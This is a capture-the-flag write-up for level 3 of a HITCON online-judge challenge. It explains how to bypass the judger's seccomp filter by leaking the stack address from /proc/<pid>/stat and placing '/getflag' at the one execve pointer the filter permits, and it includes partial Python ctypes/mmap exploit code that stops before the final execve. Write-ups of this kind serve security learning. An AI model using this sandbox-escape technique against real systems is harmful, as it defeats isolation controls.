 ### Level 3

Description:

> You can't do weird things with root access anymore! Note: Some files and configurations are different from those in levels 1 or 2.
> 
> Link: http://chal-hitoj-3.chal.hitconctf.com (If DNS does not work: http://104.155.230.160)
> 
> For this level, execute the command `/getflag give me flag` as any user to print the flag.

For this level, the entire container now runs as user 1337. The judger no longer changes users when executing the user program. Furthermore, there is only a single testcase, so we cannot use the previous symlink trick.

The judger's seccomp filter prevents us from running subprocesses by blocking `fork`, `execve` and all relevant variants. However, it does have one small exception: it permits `execve` when the first argument is a specific address (the address of the `/usr/bin/python3` string argument), in order to allow the child process to exec the Python runtime. This is achieved via simple pointer comparison in the BPF filter: since the filter cannot access memory, it cannot directly compare the string.

Thus, we have an attack strategy: if we can place the string `/getflag` at the *exact* address which is permitted by the seccomp filter, we can launch `execve` with that address and pass the filter!

To figure out the address, we will need to leak the stack address of the judger. Luckily, `/proc` provides the extremely convenient `/proc/<pid>/stat` file. One of the fields of this file is `arg_start`, which is the address of the start of `argv` on the stack. This value is only visible if the opening process passes an `PTRACE_MODE_READ_FSCREDS` check on the target process; otherwise it reads as zero (this prevents ASLR leakage). We pass this check, since we are running as the same UID as the target.

The rest of the exploit is just setting up the appropriate memory region, putting the arguments together, and calling `execve`:

```python
## <<<UTILITIES
import sys, traceback
print_ = print
def print(*args, **kwargs):
    print_(*args, **kwargs)
    sys.stdout.flush()

def excepthook(tp, value, tb):
    traceback.print_exception(tp, value, tb, file=sys.stdout)
    sys.stdout.flush()

sys.excepthook = excepthook
## UTILITIES>>>

import os

stat = open(f"/proc/{os.getppid()}/stat").read()
addr = int(stat.split()[-5]) + 141

print(stat)
print(hex(addr))

from ctypes import *
import struct
libc = CDLL("libc.so.6")

libc.mmap.argtypes = [c_ulong, c_ulong, c_int, c_int, c_int, c_long]
libc.mmap.restype = c_long
base = libc.mmap(addr & ~0xfff, 0x2000, 3, 0x22, -1, 0)
print(base)
arg_addr = base + 0x1000

```